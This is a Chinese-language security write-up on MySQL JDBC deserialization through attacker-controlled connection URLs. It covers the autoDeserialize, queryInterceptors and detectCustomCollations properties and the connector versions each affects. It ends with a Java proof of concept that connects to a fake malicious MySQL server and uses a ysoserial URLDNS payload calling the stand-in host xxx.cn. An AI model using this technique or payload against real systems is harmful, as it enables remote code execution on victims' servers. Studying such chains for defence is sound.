


- [Mysql JDBC 反序列化](#mysql-jdbc-反序列化)
  - [Mysql](#mysql)
    - [autoDeserialize](#autodeserialize)
    - [queryInterceptors](#queryinterceptors)
    - [ServerStatusDiffInterceptor](#serverstatusdiffinterceptor)
      - [ResultSetImpl#getObject](#resultsetimplgetobject)
      - [版本区别](#版本区别)
        - [8.x版本](#8x版本)
        - [6.x版本](#6x版本)
        - [5.x版本](#5x版本)
    - [detectCustomCollations](#detectcustomcollations)
      - [总结](#总结)
    - [复现](#复现)
    - [参考](#参考)
# Mysql JDBC 反序列化
主要是当JDBC Mysql连接的url可控时的攻击面  
条件: JDBC连接的url可控.  
JDBC基础语法:
```
jdbc:mysql://[host][,failoverhost...]
    [:port]/[database]
    [?propertyName1][=propertyValue1]
    [&propertyName2][=propertyValue2]...
```
## Mysql
通过在JDBC连接时指定autoDeserialize,queryInterceptors等参数让服务器自动进行反序列化恶意数据。
### autoDeserialize
[官方文档](https://dev.mysql.com/doc/connector-j/8.0/en/connector-j-connp-props-blob-clob-processing.html#cj-conn-prop_autoDeserialize)  
该属性用于指示处理BLOB类型时驱动是否自动识别并反序列化BLOB字段的数据,默认为false.
  
主要有两个地方可以触发反序列化,一个是通过queryInterceptors,另一个是detectCustomCollations.
### queryInterceptors
[官方文档](https://dev.mysql.com/doc/connector-j/8.0/en/connector-j-connp-props-statements.html#cj-conn-prop_queryInterceptors)  
语句拦截器,用于在两条语句执行中间对结果进行修改,接受以逗号分隔并实现了`com.mysql.cj.interceptors.QueryInterceptor`类的class列表,并且为链式结构,处理结果从左到右依次传递.


而在JDBC连接过程中会自动执行SET CHARSET,set autocommit=1等语句来初始化一些环境参数,就会触发`queryInterceptors`参数中指定的类执行。

不同版本的参数名有一些差异
1. 8.x版本: queryInterceptors
2. 6.x版本：queryInterceptors->statementInterceptors.
3. 5.1.11以上版本: queryInterceptors->statementInterceptors.
4. 5.1.10及以下的5.1.X版本,queryInterceptors->statementInterceptors,需要连接后执行查询语句后才会触发Interceptors.
### ServerStatusDiffInterceptor
`ServerStatusDiffInterceptor`类就是实现了`com.mysql.cj.interceptors.QueryInterceptor`的子类，其中的`preProcess`表示在下一条语句执行前要执行的方法,代码如下

其中调用了`populateMapWithSessionStatusValues`,在其中最后调用了`ResultSetUtil.resultSetToMap(toPopulate, rs);`
而在`resultSetToMap`中则会触发`ResultSet.getObject`  
```java
    public static void resultSetToMap(Map mappedValues, ResultSet rs) throws SQLException {
        while(rs.next()) {
            mappedValues.put(rs.getObject(1), rs.getObject(2));
        }

    }
```
#### ResultSetImpl#getObject
在ResultSetImpl#getObject的实现中,会根据字段类型做不同处理,当处理到blob字段类型时则会对字段数据进行反序列化,造成反序列化攻击。


#### 版本区别
然而在不同的小版本中,`ServerStatusDiffInterceptor`这个类经常被修改,
##### 8.x版本
* 8.0.9 <= version < 8.0.20   
在8.0.9版本及之前,该类的位置在,https://github.com/mysql/mysql-connector-j/blob/8.0.8/src/main/java/com/mysql/cj/jdbc/interceptors/ServerStatusDiffInterceptor.java.    
从8.0.11之后的源码位置:  
https://github.com/mysql/mysql-connector-j/blob/8.0.11/src/main/user-impl/java/com/mysql/cj/jdbc/interceptors/ServerStatusDiffInterceptor.java.

从源码可以看到在8.0.7到8.19之间是调用的`ResultSetUtil.resultSetToMap(toPopulate, rs);`可以触发反序列化.  

* 8.0.20 <= version <= 8.1.0
从8.0.20截止到 8.1.0为止该类不再调用`ResultSetUtil.resultSetToMap(toPopulate, rs);`而是调用`toPopulate.put(rs.getString(1), rs.getString(2));`      
  
##### 6.x版本
全版本6.0.0到6.0.6之间都可以触发    
https://github.com/mysql/mysql-connector-j/blob/6.0.6/src/main/java/com/mysql/cj/jdbc/interceptors/ServerStatusDiffInterceptor.java  
  
##### 5.x版本
而在5.x版本,除了5.1.49版本使用的是`toPopulate.put(rs.getString(1), rs.getString(2));`之外.  
https://github.com/mysql/mysql-connector-j/blob/5.1.49/src/com/mysql/jdbc/interceptors/ServerStatusDiffInterceptor.java  
从5.1.1到5.1.48都是调用的` Util.resultSetToMap(toPopulate, rs);`   
https://github.com/mysql/mysql-connector-j/blob/5.1.48/src/com/mysql/jdbc/interceptors/ServerStatusDiffInterceptor.java  
  
### detectCustomCollations
在`ConnectionImpl`中,会对`SHOW COLLATION`返回结果调用`Util.resultSetToMap`进行处理，而`resultSetToMap`则和`ServerStatusDiffInterceptor`相同,最后走到`ResultSetImpl#getObject`触发反序列化。

前提是`this.getDetectCustomCollations()`要为true,且最小版本要大于5.0.0。  
而detectCustomCollations这个选项在5.1.29之前一直为true,但我们也可以在参数中直接指定该变量为true。  
  
而在5.1.18及以下版本并未使用getObject(),无法触发。 
  
根据[参考文章](https://www.anquanke.com/post/id/203086#h2-4)说是由于从5.1.41版本开始，不再使用getObject的方式获取SHOW COLLATION的结果，此方法失效,实测是5.1.39以后,不再直接调用`ResultSetImpl#getObject`,但是对`SHOW COLLATION`结果的第三列直接调用了results.getObject(),最后还是进入的ResultSetImpl#getObject中.

其中字段类型为-4,-3,-2(blob,bit,binary)时会进入`getObjectDeserializingIfNeeded`方法,直接用[恶意mysql服务器](https://github.com/fnmsd/MySQL_Fake_Server)的设置即可满足此条件.    

该方法和之前类似进行了反序列化操作,其中通过`this.connection.getAutoDeserialize()`来确定是否进行反序列化,在url中同之前一样设置`autoDeserialize=true`即可.

  

直到5.1.49才真正没有调用getObject().

但在6.0.2开始,版本中却又直接调用了`ResultSetUtil.resultSetToMap`，又回到了`ServerStatusDiffInterceptor`那条链中,同样可以触发反序列化,实测直到6.0.6版本都是这样。



而在8.x版本获取`SHOW COLLATION`时又不一样了,才终于无法利用该点触发了。

#### 总结
detectCustomCollations触发版本:5.1.18< version <=6.0.6(5.1.49除外)  
queryInterceptors触发版本: 5.1.1 < version <= 8.0.19(5.1.49除外)  
### 复现
[恶意mysql服务器](https://github.com/fnmsd/MySQL_Fake_Server)  

```java
import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.SQLException;

public class JDBC {
    public static void main(String[] args) throws ClassNotFoundException, SQLException {
        Class.forName("com.mysql.cj.jdbc.Driver");

        Connection conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor","yso_URLDNS_http://xxx.cn/", "pass");
        //Connection conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/test?detectCustomCollations=true&autoDeserialize=true","yso_URLDNS_http://xxx.cn/", "pass");
    }
}

```
判断返回数据前两个字节是否为序列化数据的特征-84,-19,满足条件则进行反序列化.


### 参考
https://www.anquanke.com/post/id/203086#h2-4

